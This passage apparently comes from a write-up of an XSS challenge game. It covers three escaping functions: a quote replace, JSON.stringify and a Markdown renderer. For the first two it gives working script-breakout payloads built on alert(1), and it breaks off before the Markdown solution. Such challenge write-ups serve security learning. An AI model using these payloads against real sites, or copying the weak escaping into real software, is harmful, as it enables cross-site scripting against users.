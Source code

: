 there's a replace function which changes the `"` for `\"`, however, mentioned function doesn't escape any other special character so we can add:

`\"`

which is replaced by

`\\"`

allowing us to input `alert(1)`

<br><br><br><br>**Solution**:<br><br><br><br>

```
\");alert(1)//
```

this will output:

{% highlight javascript %}
<script>console.log("\\");alert(1)//");</script>
{% endhighlight %}


# JSON

{% highlight javascript %}
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
{% endhighlight %} 

the `JSON.stringify` function will take care of double quotes and backslashes but there's a [little detail regarding it](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0): it doesn't escapes angle brackets (`<>`)

<br><br><br><br>**Solution**:<br><br><br><br>

```
</script><script>alert(1)</script>
```

this outputs:

{% highlight javascript %}
<script>console.log("</script><script>alert(1)</script>//");</script>
{% endhighlight %}

# Markdown

be aware that some firefox versions can't execute the solution for this one.

{% highlight javascript %}
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
} 
{% endhighlight %}
